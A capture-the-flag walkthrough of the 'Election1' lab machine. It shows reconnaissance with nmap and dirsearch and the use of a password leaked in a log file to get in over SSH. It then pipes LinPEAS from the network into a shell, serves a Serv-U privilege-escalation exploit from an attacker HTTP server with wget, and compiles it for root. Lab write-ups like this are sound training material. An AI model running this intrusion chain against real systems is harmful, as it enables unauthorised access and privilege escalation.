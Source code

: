 [<- home](/)

# Election1 --- PG Play

### Scan
First I conducted the general scan with `nmap`:
```
targ3t=$targ3t
nmap -sT $targ3t -oG general.scan
```
It revealed two open ports `22` for ssh and `80` for http. I started with enumerating SSH:
```
nmap -sT $targ3t --script=ssh* -p 22 -oG ssh.scan
```
SSH scan didn't return any indication of a vulnerability on the surface. I scanned http after:
```
dirsearch -u http://$targ3t:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
This returned an `/election` path on our http. When we navigate to it, it's a webpage about election and there's a candidate registered named **Love**. There is also an input for a voter's code to vote. 

I then ran another `dirsearch` against `/election` path to see what's there:
```
dirsearch -u http://$targ3t:80/election -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
While the scan was still running I checked the results. 

- `/election/media` has some image files in it, that are used in the website. 
- `/election/themes` also holds files used for website's frontend. 
- `/election/data` is empty.
- `/election/admin` is an admin panel page expecting an input of admin's number. As I found out it has limited attempts to fill in the code. 
- `/election/lib` has a `homeAPI.php` empty file in it.
- `/election/data` has internationalization and localization data for the website's interface.
- `/election/js` has a localization script for the website.

Instead of waiting for it to complete I decided it would be more practical to run another `dirsearch` scan against one path that has anything in it --- `/election/admin`:

```
dirsearch -u http://$targ3t:80/election/admin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
This again returned a lot of files related to website's functioning, like images and markup files, but it also returned a `/election/admin/logs` path, which holds a file `system.log` in it, let's check it out: 
```
curl http://$targ3t/election/admin/logs/system.log
```
It seems we have a user `love` with assigned password `P@$$w0rd@123`. Let's try to use it for SSH:
```
ssh love@$targ3t -p 22
```
And we're in! Let's find out where we are:
```
uname -a
```
Seems to be a Ubuntu Linux, let's use LinPEAS to try and escalate privileges:
```
cd $(mktemp -d)
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh > linpeas.scan
```
When the scan is done, check what we can find in it:
```
cat linpeas.scan | grep CVE
```
One of the interesting CVEs I could find was a `Serv-U` FTP Server's vulnerability `CVE-2019-12181`. Let's find an exploit for it:
```
searchsploit --cve CVE-2019-12181
```
Let's focus on the c file it returned for linux and transfer it to our target system:
```
cp /usr/share/exploitdb/exploits/linux/local/47009.c 47009.c
python -m http.server
```
And on the target system type:
```
wget http://<Your IP Address>:<Py Server Port>/47009.c
```
It's downloaded in the temporary directory we're in. Let's compile it:
```
gcc 47009.c -o expl
./expl
```
This returns a root shell as `whoami` command returns `root`.Let's list everything in user `love`'s home directory:
```
ls /home/love
```
Let's see what's in the `local.txt`
```
cat /home/love/local.txt
```
There's our first flag. Now let's see what's in the `/root`:
```
ls /root
```
There's a `proof.txt` file. Let's see what's in it:
```
cat /root/proof.txt
```
There goes our second flag as we successfully pwned the machine!
